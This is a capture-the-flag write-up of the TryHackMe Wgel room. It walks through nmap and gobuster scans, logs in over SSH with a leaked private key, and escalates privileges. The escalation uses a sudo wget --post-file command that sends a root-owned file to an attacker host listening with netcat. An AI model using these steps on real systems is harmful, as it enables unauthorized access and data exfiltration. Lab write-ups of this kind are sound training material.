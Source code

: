 ## Scanning
### Nmap
```
nmap -sC -sV -oN nmapInitial [ip]
```

```python
Starting Nmap 7.60 ( https://nmap.org ) at 2023-10-24 16:44 BST
Nmap scan report for ip-10-10-207-223.eu-west-1.compute.internal (target-ip)
Host is up (0.0029s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:6E:6D:97:AF:3F (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.98 seconds
```

### Gobuster
```
gobuster dir -u http://target-ip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

```python
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://target-ip
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2023/10/24 16:45:59 Starting gobuster
===============================================================
/sitemap (Status: 301)
/server-status (Status: 403)
===============================================================
2023/10/24 16:46:21 Finished
===============================================================
```

## Enumeration
- When going to the IP address at port 80, we see the default Apache web page for a new web server installation. [Gobuster](https://github.com/OJ/gobuster) didn't yield any immediately helpful results, so let's do some basic enumeration. When viewing the page source code, I found the following HTML comment:
```html
 <!-- Jessie don't forget to udate the webiste -->
```

- This gives us a potential username to try and log in to the machine via SSH. Let's look around more and see if there is any other juicy data to find.
- When we visit the `/sitemap` page found via [Gobuster](https://github.com/OJ/gobuster), we are greeted with the following:

![UNAPP Page](https://github.com/morganbritt19/CTF-Writeups/assets/60797871/6a6ffdfa-b99b-4670-ad27-8af02fea54d8)


- UNAPP looks to be a basic web app template that users can build from. That would make sense as to why it is located on this new web server. 
- We can run another [Gobuster](https://github.com/OJ/gobuster) scan to see if we can enumerate more directories under `/sitemap`. To do this, we can use the following syntax:
```
gobuster dir -u http://[ip]/sitemap -w /usr/share/wordlists/dirb/common.txt
```

- From this scan, we get the following output:
```python
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://target-ip/sitemap
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2023/10/24 18:18:43 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/.ssh (Status: 301)
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/js (Status: 301)
===============================================================
2023/10/24 18:18:44 Finished
===============================================================
```

- We can see that there are a few directories that were discovered, but the most interesting one seems to be the `/.ssh` one. When I see this on a Linux machine, I typically find hidden id_rsa keys that can be leveraged to log into a device via SSH. Doing some enumeration, I found an id_rsa key under that directory. 

## System Hacking
- Now that we have found an `id_rsa` key, we can try and pair it with the `Jessie` username to connect to the machine via SSH. To do this, we must first copy the contents of the `id_rsa` file on the web server into an `id_rsa` file on our host machine. Then we have to use the following syntax to change permissions for the `id_rsa` file before we can us it:
```
chmod 600 id_rsa
```

- Now we can use the following syntax to SSH into the machine:
```
ssh jess@[ip] -i id_rsa
```

- From here, we can navigate to the `~/Documents` directory and cat out the user flag. 

## Privilege Escalation
- One of the first things I do when I get user access to a machine is to check what permissions the user I have compromised can run with root privileges. In this case, I get the following output when I use `sudo -l`:
```
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

- Since we can run `wget` with sudo permissions, I looked it up on [GTFOBins](https://gtfobins.github.io/), but it didn't pan out successfully. 
- However, we can use `wget` to post information by using the `--post-file` option. Since it has root permissions, it would stand to reason that using `sudo wget` would allow us to post files from the root directory. To do this, we can use the following syntax:
```
sudo wget --post-file=/root/root_flag.txt [attacker ip] 8888
```

- Now all we have to do is run that command once we set up a [Netcat](https://nmap.org/ncat/) listener on our attacking machine and we should be good to go:
```
nc -lnvp 8888
```

- Running the `wget` command specified above should give use the following, with the last line being the root flag:
```
Connection from target-ip 43424 received!
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.10.0.86:8888
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

{flag}
```

## Rabbit Holes
### Username Enumeration Exploit
- At one point, I was struggling to find more directories under the `/sitemap` one. I had gone through all of the .js file and .scss files and couldn't find anything of value. So I decided to look up exploits related to the version of SSH that was running, and that led me to [this page](https://www.exploit-db.com/exploits/40136) that basically outline username enumeration via a Python script. This worked, but it didn't yield useful results since I already had the correct username that I needed to log into the target machine.

[Wgel CTF THM Room](https://tryhackme.com/room/wgelctf)
